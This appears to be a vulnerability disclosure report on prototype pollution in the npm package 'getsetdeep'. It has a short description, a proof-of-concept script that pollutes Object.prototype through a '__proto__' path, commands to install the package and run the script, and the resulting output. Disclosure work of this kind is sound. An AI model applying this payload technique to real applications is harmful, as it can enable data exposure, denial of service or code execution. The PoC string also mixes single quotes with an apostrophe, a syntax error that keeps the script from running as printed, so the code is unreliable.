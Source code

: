 # Description

`getsetdeep` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var getsetdeep = require("getsetdeep")
const obj = {}
console.log("Before : " + {}.polluted);
getsetdeep.setDeep({}, '__proto__.polluted', 'Yes! It's Polluted')
console.log("After : " + {}.polluted);
```
2. Execute the following commands in another terminal:

```
npm i getsetdeep # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! It's Polluted
```
